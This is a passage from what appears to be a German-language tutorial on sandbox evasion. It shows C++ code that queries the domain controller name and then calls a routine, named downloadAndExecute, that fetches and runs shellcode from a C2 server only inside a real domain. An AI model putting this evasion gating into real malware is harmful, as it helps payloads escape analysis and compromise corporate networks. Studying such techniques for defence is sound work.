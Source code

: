 Dies zeigt, dass unser Code wie beabsichtigt funktioniert! Wir können nun zu einer unserer letzten Bypass-Kategorien übergehen – Abfragen von Netzwerkdaten.

### Abfragen von Netzwerkdaten

Für unsere letzte Umgehungstechnik werden wir Informationen über die Active Directory-Domäne abfragen. Wir halten es einfach, indem wir den Namen eines Domain Controllers mit der [NetGetDCName](https://docs.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netgetdcname) Windows API abfragen. Dies ist eine relativ einfache Windows API, die den primären Domänencontroller in der Umgebung abruft. Dies erfordert, dass wir einen Zeiger auf eine Zeichenfolge angeben, in der der DC-Name gespeichert wird. Die Implementierung der Funktion in C++ sieht folgendermaßen aus:

```cpp
BOOL isDomainController() {
    // Erstellen Sie einen langen Zeiger auf Wide String, in dem unser DC-Name gespeichert wird
    LPCWSTR dcName;
    // Abfragen der NetGetDCName Win32 API für den Namen des Domain Controllers
    NetGetDCName(NULL, NULL, (LPBYTE *) &dcName);
    // Konvertieren des DCName von einem Wide String in einen String
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
    // Überprüfen, ob der UNC-Pfad im dcNewName-Variable referenziert wird. Wenn ja, gibt es wahrscheinlich einen Domain Controller in der Umgebung. Wenn dies zutrifft, bestehen Sie die Überprüfung, andernfalls schlagen Sie fehl.
    if (dcNewName.find("\\\\") != string::npos) {
        return TRUE;
    } else {
        return FALSE;
    }
}
```

Dieser Code kann in die folgenden Schritte unterteilt werden:

1. Deklarieren Sie zwei Variablen: eine Zeichenfolge und eine LPCWSTR. Die NetGetDCName WinAPI gibt nur einen LPCWSTR zurück.
2. Rufen Sie die NetGetDCName Windows API auf. Zwei Nullwerte werden angegeben, da wir den Servernamen oder den Domänennamen der Umgebung, in der wir uns möglicherweise befinden, nicht kennen.
3. Konvertieren Sie den LPCWSTR in eine normale Zeichenfolgenvariable, um zu überprüfen, ob der Wert NULL (oder im Falle einer Zeichenfolge "") ist.
4. Führen Sie die Vergleichsanweisung aus und geben Sie je nach Gerätenamen True oder False zurück.

Dies wird dann in die `Main()`-Funktion zurückgerufen, die dann bewertet, ob sie unseren Shellcode vom C2-Server herunterladen und ausführen muss. Die `Main`-Funktion sieht nun folgendermaßen aus:

```cpp
int main() {
    if (isDomainController() == TRUE) {
        downloadAndExecute();
    } else {
        cout << "Domain Controller Not Found!";
    }
}
```
